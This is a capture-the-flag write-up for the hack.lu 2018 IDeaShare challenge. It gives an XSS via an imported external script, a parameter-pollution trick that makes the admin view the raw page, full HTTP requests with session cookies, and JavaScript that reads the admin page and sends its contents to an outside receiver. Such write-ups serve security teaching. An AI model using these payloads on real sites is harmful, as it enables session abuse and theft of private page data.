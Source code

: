 ```yaml
---
title: hacklu CTF 2018-IDeaShare-writeup(After the end of the CTF)
date: 2018-10-21 17:53:10
tags: [ctf,writeup]
---
```


First, there is a textarea for you to write your idea, some key words were blocked, but we can use `link` to import external resources, payload like this:

```html
<link/rel=import href=https://https.zer0b.com/BlueLotus_XSSReceiver/myjs/tester.js>
```

After save this as first idea, we can access url below to bring the js  into effect:

```html
https://arcade.fluxfingers.net:1818/?page=view&raw&owner=304&pad=1
```

<!--more-->

There are some restrictions when we use the `link` tag:

* the href attribute must start with `https`, when use `http` will look like this:

  ![image-20181019215815504](./http_console_err.png)

  So  you should have a domain name and `let's encrypt` will help you with configing https.

* you must set `Access-Control-Allow-Origin` to make it possible link js from your site, or you will get this:![image-20181019221619447](./access_control_err.png)

  the nginx config is blow:

  ```nginx
    add_header Access-Control-Allow-Origin *;
    add_header Access-Control-Allow-Methods 'GET, POST, OPTIONS';
    add_header Access-Control-Allow-Headers 'DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization';
  ```

Then XSS can be successfully triggered when we visit this page(`https://arcade.fluxfingers.net:1818/?page=view&raw&owner=304&pad=1`)

![image-20181019222416066](./shares.png)

We know from `about` page that:`An Admin will check your IDea and evaluate it.`  But in our shares list, url like this:

```html
   <a href=?page=view&owner=304&pad=3>IDea Number 3</a>
```

Obviously the **raw** parameter is missing here, Admin will not trigger our XSS when he check ideas.

We found a `parameter pollution` vulnerability here, then we can construct such url to create a new idea:

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 110
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

idea=%3Clink%2Frel%3Dimport+href%3Dhttps%3A%2F%2Fhttps.zer0b.com%2FBlueLotus_XSSReceiver%2Fmyjs%2Ftester.js%3E
```

Please note that the name of the pad is `1%26raw`, and we share this idea:

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 341
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1%26raw
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

share=&g-recaptcha-response=03AMGVjXhpe6wbk65KVTuzy2kfsLDT8duce0LwPj18Mec_vBg_6GvZJaBlETmfIoFRCTS-OpEk4KPm5FzfwEAQsfnSxbv_jj80RKuppequjTau-YmmNiy_Om3tbcuJUGGz3sxjMaF75uGQqVJCWpMKua-jBED5ahDSFab2ZP_Pomi9FxVFBcSxkfgYhiu9xpT7wLLbL43rO1SeExQGRBhBp9Yp5fnBfyLFB4b6KloNQ18QmVKBDXTajuUuZoFKM_gmRZs2bu5138xged-JNAuxdpOv7HLoSLpS7ukB0R_REGv5HlQULAofOQs
```

We can found a new url in shares list:

![image-20181021171619823](./image-20181021171619823.png)

and it's url like this:

```html
<a href=?page=view&owner=304&pad=1&amp;raw>IDea Number 1&amp;raw</a> 
```

Xss will be triggered when the administrator accesses this url.

![image-20181021172716373](./httponly.png)

Cookie is set to be httpOnly, so we can't reveive cookie in XSS platform.

![image-20181021173018469](./admin.png)

We access admin page with js, and payload in tester.js like this:

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.get("/?page=admin",async=false,function(result){
        $.post(xss_url,data="admin_content="+result,async=false);
    });
</script>
```

We received the content of the admin page, the most important part of which is this：

```html
<form method="POST" action="?page=admin"> 
    <div class="form-group"> 
        <label for="password">Winner ID</label> 
        <input type="text" name="userid" class="form-control" /> 
    </div> 
    <button type="submit" class="btn btn-primary">Submit</button> 
</form> 
```

Then construct payload in tester.js

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.post("/?page=admin",{ userid:"720" },async=false);
</script>
```

We got the flag:

![image-20181021175039661](./flag.png)